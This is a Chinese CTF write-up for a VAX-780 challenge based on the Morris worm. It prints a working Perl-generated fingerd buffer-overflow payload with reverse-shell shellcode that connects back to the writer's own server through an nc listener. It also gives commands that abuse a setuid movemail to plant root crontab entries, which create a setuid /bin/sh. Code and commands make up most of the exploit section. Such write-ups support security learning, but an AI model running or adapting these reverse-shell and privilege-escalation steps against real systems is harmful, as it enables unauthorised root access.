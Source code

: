 # 1988

*Welcome to 1988, please read README.md carefully*

用上了vax780的远古老题，并给出了详细的wp，以下是我粗略的解释

## 解题思路

首先利用`fingerd`的`gets`打栈溢出，执行任意shellcode，作者写的是反弹shell

> 没有服务器，frp还配不好，紧急借了台服务器

然后`movemail`设有suid位，通过修改定时任务达到rce的目的，创建一个有suid位的`sh`，
接着`cat /flag`即可

## EXPLOIT

**Command on remote server** :
```sh
nc -lvvp 4444
```

**Command on local machine** :
```sh
perl -e 'print "\x01"x303 . "\xdd\x00\xdd\x01\xdd\x02\xdd\x03\xd0\x5e\x5c\xbc\x8f\x61\x00\xd0\x50\x5a\xdd\x00\xdd\x00\xdd\x8f{YOUR REMOTE SERVER IP}\xdd\x8f\x02\x00\x11\x5c\xd0\x5e\x5b\xdd\x10\xdd\x5b\xdd\x5a\xdd\x03\xd0\x5e\x5c\xbc\x8f\x62\x00\xd0\x00\x5b\xdd\x5b\xdd\x5a\xdd\x02\xd0\x5e\x5c\xbc\x8f\x5a\x00\xf3\x02\x5b\xef\xdd\x8f\x2f\x73\x68\x00\xdd\x8f\x2f\x62\x69\x6e\xd0\x5e\x5b\xdd\x00\xdd\x00\xdd\x5b\xdd\x03\xd0\x5e\x5c\xbc\x3b" . "A"x109 . "\x00"x16 . "\x38\xea\xff\x7f"' | ncat -v $TARGET_IP 79
```
注意用自己服务器的ip替换`{YOUR REMOTE SERVER IP}`字段，保持字节的表达形式

**Commands on remote server** :
```sh
(umask 0 && /etc/movemail /dev/null /usr/lib/crontab.local)
ls -l /usr/lib/crontab.local
(echo "* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh"; echo  "* * * * * root rm -f /usr/lib/crontab.local") > /usr/lib/crontab.local
cat /usr/lib/crontab.local
```
稍等一会儿等待定时任务执行
```sh
ls -l /tmp/sh
/tmp/sh
cat /flag
```

成功拿到flag

## 后记

docker起不了，本地的环境久久无法正常工作，于是我决定直接打远程，所幸数据和原文都对的上，
作者给的脚本不需要多少修改就可以直接打通

同时这道题是对pwn一词的诠释，让我第一次见到了二进制利用在现实中的应用

## 参考

[解题所需的blog](https://www.rapid7.com/blog/post/2019/01/02/the-ghost-of-exploits-past-a-deep-dive-into-the-morris-worm/)
